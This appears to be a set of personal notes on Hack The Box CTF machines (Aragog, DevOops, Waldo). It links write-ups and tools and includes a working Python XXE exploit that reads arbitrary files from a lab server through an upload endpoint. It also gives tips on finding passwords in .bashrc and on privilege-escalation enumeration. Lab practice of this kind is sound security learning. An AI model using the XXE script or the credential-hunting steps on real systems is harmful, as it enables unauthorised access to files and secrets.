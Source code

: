 # HTB Writeup Notes

## Aragog Write-up (HTB)
https://medium.com/ctf-writeups/aragog-write-up-htb-b035a467773

Tool to monitor & interrupt cron jobs
https://github.com/DominicBreuker/pspy


## DevOops Write-up (HTB)
https://medium.com/ctf-writeups/devoops-writeup-fc6616a7239f

Python Script to generate XML External Entity Injection
```python
    import requests as rq
    import sys
    
    filename = sys.argv[1]
    url = "http://10.10.10.91:5000/upload"
    
    data = """<?xml version="1.0"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file://FD" >]>
    <Container>
    <Author></Author>
    <Subject></Subject>
    <Content>
        &xxe;
    </Content>
    </Container>
    """.replace("FD",filename)
    
    with open('payload.xml','w') as f:
        f.write(data)
    files = {'file':open('payload.xml','rb')}
    
    print("Attempting with file " + filename +" on url "+url+"\n#########")
    
    try:
        r = rq.post(url, files=files)
    except:
        print("No file found!")
        sys.exit()
    
    for count, i in enumerate(r.text.split('\n')[4:-4]):
        if count == 0: print(i.lstrip())
        else: print(i)
```

Check `.bashrc` for previous commands, might reveal passwords

LinEnum.sh - check for local privilege escalation abilities
https://github.com/rebootuser/LinEnum


## Waldo Write-up (HTB)
https://medium.com/ctf-writeups/waldo-write-up-htb-dfbaaaa91282

`find` command to list all files created by current user
`find / -user $USER ! -path "*proc*" ! -path "*var*" ! -path "*dev*" 2>/dev/null`


